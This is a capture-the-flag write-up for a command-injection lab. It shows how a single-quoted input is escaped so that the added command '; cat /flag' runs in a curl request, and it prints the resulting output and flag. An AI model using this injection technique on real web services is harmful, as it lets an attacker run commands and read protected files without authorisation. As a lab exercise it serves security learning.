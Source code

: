 ```py title="/challenge/server" showLineNumbers
os.setuid(os.geteuid())
os.environ["PATH"] = "/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = "challenge.localhost:80"
app.run("challenge.localhost", 80)
```

This time, the user input is inserted between single quotes.
This causes special characters like `;` to be treated like normal strings.

### Command injection

We have to escape the quotes while being careful that we balance out the quotes.

```
## Request:
curl "challenge.localhost:80/quest?path=/'; cat /flag'"

## Resultant commands:
ls -l '/';
cat /flag ''
```

```
hacker@web-security~cmdi-3:/$ curl "challenge.localhost:80/quest?path=/';%20cat%20/flag'"

        <html><body>
        Welcome to the dirlister service! Please choose a directory to list the files of:
        <form action="/quest"><input type=text name=path><input type=submit value=Submit></form>
        <hr>
        <b>Output of ls -l '/'; cat /flag'':</b><br>
        <pre>total 64
lrwxrwxrwx    1 root root    7 Apr  4 02:03 bin -> usr/bin
drwxr-xr-x    2 root root 4096 Apr 15  2020 boot
drwxr-xr-x    1 root root 4096 Jun 10 15:54 challenge
drwxr-xr-x    6 root root  380 Jun 10 15:54 dev
drwxr-xr-x    1 root root 4096 Jun 10 15:54 etc
-r--------    1 root root   58 Jun 10 15:54 flag
drwxr-xr-x    1 root root 4096 May  1 03:58 home
lrwxrwxrwx    1 root root    7 Apr  4 02:03 lib -> usr/lib
lrwxrwxrwx    1 root root    9 Apr  4 02:03 lib32 -> usr/lib32
lrwxrwxrwx    1 root root    9 Apr  4 02:03 lib64 -> usr/lib64
lrwxrwxrwx    1 root root   10 Apr  4 02:03 libx32 -> usr/libx32
drwxr-xr-x    2 root root 4096 Apr  4 02:03 media
drwxr-xr-x    2 root root 4096 Apr  4 02:03 mnt
drwxr-xr-x    1 root root   16 Oct 26  2024 nix
drwxr-xr-x    1 root root 4096 May  1 03:58 opt
dr-xr-xr-x 2526 root root    0 Jun 10 15:54 proc
drwx------    1 root root 4096 May  1 03:58 root
drwxr-xr-x    1 root root 4096 Jun 10 15:54 run
lrwxrwxrwx    1 root root    8 Apr  4 02:03 sbin -> usr/sbin
drwxr-xr-x    2 root root 4096 Apr  4 02:03 srv
dr-xr-xr-x   13 root root    0 Dec 13 06:06 sys
drwxrwxrwt    1 root root 4096 Jun 10 15:58 tmp
drwxr-xr-x    1 root root 4096 May  1 03:44 usr
drwxr-xr-x    1 root root 4096 May  1 03:43 var
pwn.college{I5wi0RanpeaavNfrjzwk2pvGOry.dZjN1YDL4ITM0EzW}
</pre>
        </body></html>
```
